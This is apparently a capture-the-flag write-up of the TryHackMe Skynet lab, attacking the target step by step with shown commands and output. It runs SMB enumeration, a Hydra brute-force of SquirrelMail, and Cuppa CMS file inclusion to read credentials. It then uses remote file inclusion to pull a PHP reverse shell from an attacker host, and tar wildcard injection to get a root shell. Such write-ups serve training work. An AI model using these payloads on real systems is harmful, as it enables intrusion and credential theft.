






<table>
  <tr>
    <td>
      
    </td>
    <td width="900">
      <h1>Skynet — Write-up</h1>
      <p>Deploy and compromise the target machine to retrieve the user and root flags.</p>
      <p><strong>Difficulty:</strong> Easy 🟢</p>
       &nbsp;
       &nbsp;
      
    </td>
  </tr>
</table>

> **Description:** A vulnerable Terminator-themed Linux machine.

## 🎯 Mission Objectives

In this laboratory, the following questions must be answered:

- What is Miles' email password?
- What is the hidden directory?
- What is the vulnerability called when a remote file can be included for malicious purposes?
- **User Flag:** `THM{...}`
- **Root Flag:** `THM{...}`

```bash
export TARGET_IP=<tryhackme_machine_ip>
```
## 🔍 Enumeration

### Nmap Scan Results

The initial scan reveals several open ports, indicating a relatively large attack surface:

```bash
nmap -sS -sV -T4 --top-ports 10000 $TARGET_IP

Starting Nmap 7.98 ( https://nmap.org ) at 2025-12-27 15:44 -0300
Nmap scan report for 10.64.185.128
Host is up (0.15s latency).
Not shown: 8374 closed tcp ports (reset)

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
110/tcp open  pop3        Dovecot pop3d
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### Potential Entry Points

The presence of SMB and email-related services (POP3/IMAP) suggests a common attack pattern for this machine.
As an initial approach, SMB shares should be enumerated to determine whether anonymous or guest access is enabled.

## 📂 SMB Enumeration

### Investigating the Anonymous Share

Since an **anonymous SMB share** is available, the next logical step is to enumerate it and inspect its contents.

```bash
smbclient -L //$TARGET_IP/

Password for [WORKGROUP\attack]:

Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
anonymous       Disk      Skynet Anonymous Share
milesdyson      Disk      Miles Dyson Personal Share
IPC$            IPC       IPC Service (skynet server (Samba, Ubuntu))

Reconnecting with SMB1 for workgroup listing.

Server               Comment
---------            -------

Workgroup            Master
---------            -------
WORKGROUP            SKYNET
```

#### Findings
* anonymous: An SMB share explicitly labeled as Skynet Anonymous Share. This is highly likely to contain useful information.
* milesdyson: A personal share belonging to Miles Dyson. Access will likely require valid credentials.

### Accessing the Anonymous Share

```bash
smbclient //$TARGET_IP/anonymous

Password for [WORKGROUP\]:
Try "help" to get a list of possible commands.

smb: \> ls
.                                   D        0  Thu Nov 26 13:04:00 2020
..                                  D        0  Tue Sep 17 04:20:17 2019
attention.txt                       N      163  Wed Sep 18 00:04:59 2019
logs                                D        0  Wed Sep 18 01:42:16 2019

9204224 blocks of size 1024. 5831484 blocks available
```

```bash
Downloading Files
smb: \> get attention.txt

smb: \> cd logs\
smb: \logs\> ls

log2.txt                            N        0  Wed Sep 18 01:42:13 2019
log1.txt                            N      471  Wed Sep 18 01:41:59 2019
log3.txt                            N        0  Wed Sep 18 01:42:16 2019

smb: \logs\> get log1.txt
```

#### File Content Analysis

> attention.txt
```text
A recent system malfunction has caused various passwords to be changed. 
All skynet employees are required to change their password after seeing this.

-Miles Dyson
```
> log1.txt
```text
cyborg007haloterminator
terminator22596
terminator219
terminator20
terminator1989
terminator1988
terminator168
terminator16
terminator143
terminator13
terminator123!@#
terminator1056
terminator101
terminator10
terminator02
terminator00
roboterminator
pongterminator
manasturcaluterminator
exterminator95
exterminator200
dterminator
djxterminator
dexterminator
determinator
cyborg007haloterminator
avsterminator
alonsoterminator
Walterminator
79terminator6
1996terminator
```
#### Analysis Summary
* attention.txt contains a notice from Miles Dyson indicating that employee passwords were recently changed.
* log1.txt appears to be a password wordlist, likely related to the password changes mentioned in the note.
* This wordlist may be useful for credential attacks against email services or SMB authentication.

## 🌐 Web Enumeration

### Directory Brute-Forcing (Gobuster)

To identify hidden directories and web applications, a directory brute-force scan was performed against the web server.

```bash
gobuster dir -u http://$TARGET_IP -w /usr/share/wordlists/dirb/common.txt
text
Copiar código
===============================================================
Gobuster v3.8
===============================================================
[+] Url:                     http://10.64.185.128
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403)
/.htaccess            (Status: 403)
/.htpasswd            (Status: 403)
/admin                (Status: 301) [--> /admin/]
/config               (Status: 301) [--> /config/]
/css                  (Status: 301) [--> /css/]
/index.html           (Status: 200)
/js                   (Status: 301) [--> /js/]
/server-status        (Status: 403)
/squirrelmail         (Status: 301) [--> /squirrelmail/]
===============================================================
Finished
===============================================================
```
#### Key Findings

* /squirrelmail: A web-based email client (SquirrelMail), confirming the presence of an accessible webmail login interface.
* /admin and /config: Standard directories that may contain sensitive information, although access appears to be restricted or redirected.

> The presence of SquirrelMail aligns with the POP3/IMAP services discovered during Nmap enumeration.

### Next Steps

Given the discovery of a webmail interface and the previously obtained password wordlist, the next step is to attempt credential-based attacks against the SquirrelMail login portal.

# SquirrelMail Login Interface

## 🔐 Credential Attack — SquirrelMail

### Brute-Forcing Webmail Credentials

Based on the discovered username (**milesdyson**) and the password wordlist obtained from the SMB share, a credential attack was performed against the SquirrelMail login endpoint using **Hydra**.

```bash
hydra -l milesdyson -P log1.txt $TARGET_IP http-post-form \
"/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:Unknown user or password incorrect"

Hydra v9.6 (c) 2023 by van Hauser/THC

[DATA] attacking http-post-form://10.64.185.128:80/squirrelmail/src/redirect.php
[80][http-post-form] host: 10.64.185.128   login: milesdyson   password: cyborg007haloterminator

1 of 1 target successfully completed, 1 valid password found
Hydra finished at 2025-12-27 18:22:14
```

Valid Credentials Discovered

> Username: milesdyson

> Password: cyborg007haloterminator

### Accessing the Webmail Interface

With valid credentials obtained, authentication to the SquirrelMail webmail interface is now possible via the following URL:

```text
http://10.64.185.128/squirrelmail/src/webmail.php
```

## 📧 Email Enumeration — SquirrelMail

After successfully authenticating to the SquirrelMail interface, access to Miles Dyson’s mailbox is obtained.

### Inbox Overview

The following image shows the **SquirrelMail inbox page**, confirming successful authentication.



### Email Content Analysis

One of the emails contains **sensitive information**, including credentials related to SMB access.



## 📂 SMB Enumeration — Miles Dyson Share

Using the credentials obtained from the email, authenticated access to Miles Dyson’s personal SMB share is now possible.

```bash
smbclient -U milesdyson //$TARGET_IP/milesdyson

smb: \> ls
Improving Deep Neural Networks.pdf
Natural Language Processing-Building Sequence Models.pdf
Convolutional Neural Networks-CNN.pdf
Neural Networks and Deep Learning.pdf
Structuring your Machine Learning Project.pdf
notes/
```
Exploring the notes Directory

```bash
smb: \> cd notes
smb: \notes\> ls
important.txt
get important.txt
```

```bash
cat important.txt

1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

## Hidden Web Directory Discovered

The file reveals a hidden CMS directory, likely intended for internal or development use.


http://10.64.185.128/45kra24zxs28v3yd/


## 🌐 CMS Enumeration

### Directory Enumeration — Hidden CMS

After discovering the hidden CMS directory, further directory enumeration was performed to identify administrative endpoints.

```bash
gobuster dir -u http://$TARGET_IP/45kra24zxs28v3yd/ -w /usr/share/wordlists/dirb/common.txt

===============================================================
Gobuster v3.8
===============================================================
[+] Url:                     http://10.64.185.128/45kra24zxs28v3yd/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/administrator        (Status: 301) [--> /administrator/]
/index.html           (Status: 200)
===============================================================
Finished
===============================================================
```
## Administrator Panel Identified

The scan reveals an administrator login panel, indicating the presence of a web-based CMS administration interface.

http://10.64.185.128/45kra24zxs28v3yd/administrator/



## 🧨 Vulnerability Identification — Cuppa CMS

The administrator panel indicates that the application is running **Cuppa CMS**.  
A quick vulnerability search reveals a known **Local/Remote File Inclusion (LFI/RFI)** vulnerability affecting this CMS.

This vulnerability allows arbitrary file inclusion via user-controlled input, potentially leading to full server compromise.

<details>
<summary><strong>🔍 Exploit discovery (searchsploit)</strong></summary>

```bash
searchsploit cuppa cms
```
```bash
searchsploit -m php/webapps/25971.txt

```
</details>

## Local File Inclusion (LFI)

During the analysis of the Cuppa CMS administrator panel, a Local File Inclusion (LFI) vulnerability was identified in the file alertConfigField.php. The application dynamically includes server-side files based on the user-controlled parameter urlConfig without proper validation or sanitization.

This behavior allows arbitrary local files to be included and rendered by the PHP interpreter. To confirm the vulnerability, the system file /etc/passwd was requested using an absolute path, which successfully returned its contents:

http://TARGET/administrator/alerts/alertConfigField.php?urlConfig=/etc/passwd


The successful disclosure of /etc/passwd confirms that the backend uses an insecure include() operation and accepts absolute file paths, proving full read access to local files on the server.

🧪 Proof of Concept — Arbitrary File Read

To confirm the vulnerability, the php://filter wrapper was used to safely read and encode a PHP file in Base64, avoiding direct execution.

Payload used:

http://10.66.167.158/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../Configuration.php



The request successfully returned a Base64-encoded response, confirming that arbitrary local files can be read via the urlConfig parameter.

📌 Observations

The parameter name is case-sensitive: only urlConfig is processed by the application.<br>
The vulnerability allows reading sensitive files from the server.<br>
This confirms the presence of a Local File Inclusion (LFI) vulnerability in the Cuppa CMS installation.<br>


The decoded content revealed sensitive configuration details, including database credentials and application secrets:
```bash
echo "PD9waHAgCgljbGFzcyBDb25maWd1cmF0aW9uewoJCXB1YmxpYyAkaG9zdCA9ICJsb2NhbGhvc3QiOwoJCXB1YmxpYyAkZGIgPSAiY3VwcGEiOwoJCXB1YmxpYyAkdXNlciA9ICJyb290IjsKCQlwdWJsaWMgJHBhc3N3b3JkID0gInBhc3N3b3JkMTIzIjsKCQlwdWJsaWMgJHRhYmxlX3ByZWZpeCA9ICJjdV8iOwoJCXB1YmxpYyAkYWRtaW5pc3RyYXRvcl90ZW1wbGF0ZSA9ICJkZWZhdWx0IjsKCQlwdWJsaWMgJGxpc3RfbGltaXQgPSAyNTsKCQlwdWJsaWMgJHRva2VuID0gIk9CcUlQcWxGV2YzWCI7CgkJcHVibGljICRhbGxvd2VkX2V4dGVuc2lvbnMgPSAiKi5ibXA7ICouY3N2OyAqLmRvYzsgKi5naWY7ICouaWNvOyAqLmpwZzsgKi5qcGVnOyAqLm9kZzsgKi5vZHA7ICoub2RzOyAqLm9kdDsgKi5wZGY7ICoucG5nOyAqLnBwdDsgKi5zd2Y7ICoudHh0OyAqLnhjZjsgKi54bHM7ICouZG9jeDsgKi54bHN4IjsKCQlwdWJsaWMgJHVwbG9hZF9kZWZhdWx0X3BhdGggPSAibWVkaWEvdXBsb2Fkc0ZpbGVzIjsKCQlwdWJsaWMgJG1heGltdW1fZmlsZV9zaXplID0gIjUyNDI4ODAiOwoJCXB1YmxpYyAkc2VjdXJlX2xvZ2luID0gMDsKCQlwdWJsaWMgJHNlY3VyZV9sb2dpbl92YWx1ZSA9ICIiOwoJCXB1YmxpYyAkc2VjdXJlX2xvZ2luX3JlZGlyZWN0ID0gIiI7Cgl9IAo/Pg==" | base64 -d
```

```php
Decode text:

<?php 
        class Configuration{
                public $host = "localhost";
                public $db = "cuppa";
                public $user = "root";
                public $password = "password123";
                public $table_prefix = "cu_";
                public $administrator_template = "default";
                public $list_limit = 25;
                public $token = "OBqIPqlFWf3X";
                public $allowed_extensions = "*.bmp; *.csv; *.doc; *.gif; *.ico; *.jpg; *.jpeg; *.odg; *.odp; *.ods; *.odt; *.pdf; *.png; *.ppt; *.swf; *.txt; *.xcf; *.xls; *.docx; *.xlsx";
                public $upload_default_path = "media/uploadsFiles";
                public $maximum_file_size = "5242880";
                public $secure_login = 0;
                public $secure_login_value = "";
                public $secure_login_redirect = "";
        } 
?>
```
## 📌 Impact

- Full disclosure of database credentials (`root:password123`)
  
  > **Note:**  
  > The retrieved `Configuration.php` file exposed database connection parameters, including the database name, host, and credentials. The presence of standard MySQL connection fields confirms that these credentials belong to the database user rather than a system or CMS account.

- Exposure of an application security token
- Identification of the file upload directory, which may be leveraged for further attacks
- Confirmation that sensitive backend configuration files are readable due to improper input handling

This significantly increases the attack surface and enables lateral movement, including database access and potential remote code execution.

# Exploitation — Remote File Inclusion (RFI) to Remote Code Execution (RCE)


### 1 - Preparation & Listener Setup
  
First, host the PHP reverse shell script and start a netcat listener to catch the connection.

#### Host the payload:

```bash
# Start a Python HTTP server to serve the shell.txt (PHP code)
python3 -m http.server 8000
```
#### Start the Listener:

```bash
# Open netcat to listen for the incoming reverse shell
nc -lvnp 1234
```
### 2 - Execution Phase

Inject the payload by passing the attacker's URL to the vulnerable parameter.

#### Payload URL: 

> http://<target_ip>/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://<attacker_ip>:8000/shell.txt

### 3 - Post-Exploitation & Shell Stabilization

Once the connection is established, the shell is limited. We stabilize it using Python for a fully interactive TTY.

#### Establishing TTY:
```bash
# Verify environment and upgrade to interactive bash
/$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@skynet:/$ cd /home/milesdyson
www-data@skynet:/home/milesdyson$ ls
backups  mail  share  user.txt
www-data@skynet:/home/milesdyson$ cat user.txt
FLAG = [REDACTED]
```
---

---

# 🪜 Privilege Escalation:

After gaining initial access as www-data, the next step is to look for misconfigurations or scheduled tasks that run with higher privileges. A common place to find these is the system-wide crontab.

#### Checking Scheduled Tasks (Cron Jobs)
```bash
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/1 *   * * *   root    /home/milesdyson/backups/backup.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```
#### Inspecting File Permissions
```bash
www-data@skynet:/home/milesdyson/backups$ ls -la
ls -la
total 4584
drwxr-xr-x 2 root       root          4096 Sep 17  2019 .
drwxr-xr-x 5 milesdyson milesdyson    4096 Sep 17  2019 ..
-rwxr-xr-x 1 root       root            74 Sep 17  2019 backup.sh
-rw-r--r-- 1 root       root       4679680 Dec 28 10:06 backup.tgz
```
#### 📌 As the www-data user, we cannot modify the backup.sh script directly because we lack write permissions (-rwxr-xr-x). To escalate privileges, we must find a vulnerability within the commands executed by the script itself.

#### Analyzing Script Logic
```bash
www-data@skynet:/home/milesdyson/backups$ cat backup.sh
cat backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```
The script uses a wildcard (*) with the tar command. Since the shell expands the asterisk into a list of filenames, we can inject command-line arguments by creating files with specific names.

#### 📂 Directory Permissions Analysis
The directory is owned by www-data. This confirms that we have the necessary permissions to create the malicious files
```bash
www-data@skynet:/var/www/html$ ls -la
ls -la
total 68
drwxr-xr-x 8 www-data www-data  4096 Nov 26  2020 .
drwxr-xr-x 3 root     root      4096 Sep 17  2019 ..
drwxr-xr-x 3 www-data www-data  4096 Sep 17  2019 45kra24zxs28v3yd
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 admin
drwxr-xr-x 3 www-data www-data  4096 Sep 17  2019 ai
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 config
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 css
-rw-r--r-- 1 www-data www-data 25015 Sep 17  2019 image.png
-rw-r--r-- 1 www-data www-data   523 Sep 17  2019 index.html
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 js
-rw-r--r-- 1 www-data www-data  2667 Sep 17  2019 style.css

```
#### Create the payload
```bash
www-data@skynet:/var/www/html$ echo "chmod +s /bin/bash" > exploit.sh
```
#### Create the malicious flags
```bash
www-data@skynet:/var/www/html$ touch ./"--checkpoint=1"
touch ./"--checkpoint=1"
```
```bash
www-data@skynet:/var/www/html$ touch ./"--checkpoint-action=exec=sh exploit.sh"
touch ./"--checkpoint-action=exec=sh exploit.sh"
```
### Gaining Root Access

After waiting one minute for the cron job to execute, I checked the permissions of the Bash binary. The SUID bit was successfully applied:
```bash
www-data@skynet:/var/www/html$ ls -la /bin/bash
ls -la /bin/bash
-rwsr-sr-x 1 root root 1037528 Jul 12  2019 /bin/bash
```
I then executed Bash with the -p flag to drop into a root shell:

```bash
www-data@skynet:/var/www/html$ /bin/bash -p
/bin/bash -p
bash-4.3# 
```
### Final Flag
Finally, I navigated to the root directory and retrieved the flag:
```bash
cat /root/root.txt
# Flag: [REDACTED]
```

> # PWNED! 🚩
> ##By Hirt, Nelson